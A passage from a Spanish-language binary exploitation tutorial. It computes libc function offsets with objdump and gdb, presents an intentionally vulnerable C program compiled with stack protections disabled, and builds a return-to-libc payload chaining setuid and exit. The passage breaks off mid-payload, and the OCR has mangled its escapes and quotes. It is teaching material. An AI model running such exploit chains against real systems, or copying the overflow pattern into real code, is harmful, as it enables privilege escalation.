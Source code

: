 Sin embargo podemos comprobarlo, solo para demostrarlo.  
Si en el programa b la función se encuentra en 0xf7e89420 y la librería se carga en 0xf7e02000, el offset de la función dentro de la librería es `0xf7e89420 - 0xf7e02000 = 0x87420`. Podemos comprobarlo fácilmente:  
`$ objdump -d /lib32/libc.so.6 | grep 87420  
87420: 8b 54 24 04 mov 0x4(%esp),%edx`

En efecto, es la misma instrucción que vemos en el programa b que se encuentra en la dirección 0xf7e89420. Ahora este offset se lo sumamos a la dirección en la que se carga la librería para el programa vuln, que, como vemos con `ldd`, es 0xf7e02000. `0x87420 + 0xf7e02000 = 0xf7e89420`. QUe resulta ser la misma dirección que hemos visto en b (qué sorpresa, `a + b - b = a`, si es que te lo he dicho, pero tú ni caso). Vamos a hacer la última comprobación:  

$ gdb -q vuln
Reading symbols from vuln...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1 at 0x8048494
Starting program: /home/arget/vuln

Temporary breakpoint 1, 0x08048494 in main ()  
(gdb) x/i 0xf7e89420  
0xf7e89420: mov 0x4(%esp),%edx  
(gdb)

Posyastá. Vamos a explotar.  

$ cat vuln.c
#include <stdio.h>
#include <string.h>

char\* get\_ebp()  
{  
asm(«mov (%ebp), %eax»);  
}

void func(char \*p)  
{  
char buffer\[128\];  
volatile int i;

/\* i almacena la distancia desde el comienzo del buffer hasta EIP(s) incluido \*/  
i = get\_ebp() – buffer + 4 + 4;

strncpy(buffer, p, i);  
return;  
}

int main(int argc, char\*\* argv)  
{  
if (argc < 2)  
{  
printf(«Missing argsn»);  
return -1;  
}  
func(argv\[1\]);  
return 0;  
}  
$ gcc vuln.c -o vuln -m32 -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -no-pie -fno-pie -fno-pic  
$ /home/arget/vuln «\`perl -e ‘print  
«x54xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9cxd2xffxff» . «xfcx82x04x08» .  
«x68xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9dxd2xffxff» . «xfcx82x04x08» .  
«x7cxd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9exd2xffxff» . «xfcx82x04x08» .  
«x90xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9fxd2xffxff» . «xfcx82x04x08» .  
«xa0xd2xffxff» . «x60x3dxebxf7» . «x84x84x04x08» .  
«ARGT» . # Este ARGT es el argumento para setuid()  
«xa4xd2xffxff» . «x50xc8xe3xf7» . «xc5x35xebxf7» . «xc8xecxf5xf7» .  
«x01AGT» . # Argumento para exit()  
«C»x20 . # Relleno final  